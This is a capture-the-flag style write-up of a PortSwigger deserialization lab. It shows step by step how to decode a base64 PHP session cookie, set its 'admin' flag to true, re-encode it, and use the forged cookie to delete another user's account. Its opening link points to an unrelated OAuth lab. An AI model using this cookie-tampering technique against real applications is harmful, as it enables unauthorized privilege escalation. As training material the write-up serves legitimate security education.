 # Modifying serialized objects | Jan 10, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/oauth/lab-oauth-authentication-bypass-via-oauth-implicit-flow), you'll learn: Modifying serialized objects! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab uses a serialization-based session mechanism and is vulnerable to privilege escalation as a result. To solve the lab, edit the serialized object in the session cookie to exploit this vulnerability and gain administrative privileges. Then, delete Carlos's account.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-1/images/Pasted%20image%2020230110035303.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-1/images/Pasted%20image%2020230110035322.png)

**Burp Suite HTTP history:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-1/images/Pasted%20image%2020230110035339.png)

**When we successfully logged in, a new session cookie has been set:**

**URL decoded:**
```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30=
```

As you can see, the last character is `=`, which is a padding character in base64!

**Let's base64 decode that:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# echo -n 'Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30=' | base64 -d
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
```

**As you can see, the decoded base64 string is a serialized PHP object!**

Let's break it down:

- `O:4:"User"` means there is an `User` object, and it's length is 4 characters long
- `2` means there are 2 attributes:
    - `s:8:"username"` means the **first attribute** is called `username`, and it's length is 8 characters long
        - `s:6:"wiener"` means `username` attribute value is `wiener`, and it's length is 6 characters long
    - `s:5:"admin"` means the **second attribute** is called `admin`, and it's length is 5 characters long
        - `b:0` means the `admin` attribute value is boolean value `0` (`false`)

**Armed with above information, we can write a PHP code to serialize and deserialize that PHP object:**
```php
<?php
    $deserializedObject = 'O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}';

    $serializedObject = unserialize($deserializedObject);
    echo "[+] Serialized: \n";
    var_dump($serializedObject);
?>
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# php serialization.php
[+] Serialized: 
object(__PHP_Incomplete_Class)#1 (3) {
  ["__PHP_Incomplete_Class_Name"]=>
  string(4) "User"
  ["username"]=>
  string(6) "wiener"
  ["admin"]=>
  bool(false)
}
```

**Now, to gain administrator privilege, we can just change the `admin` attribute to `true` (`1`):**
```php
<?php
    $deserializedObject = 'O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}';

    $serializedObject = unserialize($deserializedObject);
    echo "[+] Serialized: \n";
    var_dump($serializedObject);

    echo "[+] Base64 encoded: \n" . base64_encode($deserializedObject);
?>
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# php serialization.php 
[+] Serialized: 
object(__PHP_Incomplete_Class)#1 (3) {
  ["__PHP_Incomplete_Class_Name"]=>
  string(4) "User"
  ["username"]=>
  string(6) "wiener"
  ["admin"]=>
  bool(true)
}
[+] Base64 encoded: 
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30=
```

**Let's change the session cookie with our newly created PHP serialized object in base64 encoded:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-1/images/Pasted%20image%2020230110041522.png)

**Then refresh the page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-1/images/Pasted%20image%2020230110041536.png)

We can access to the admin panel!

Let's delete user `carlos`:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-1/images/Pasted%20image%2020230110041556.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-1/images/Pasted%20image%2020230110041607.png)

# What we've learned:

1. Modifying serialized objects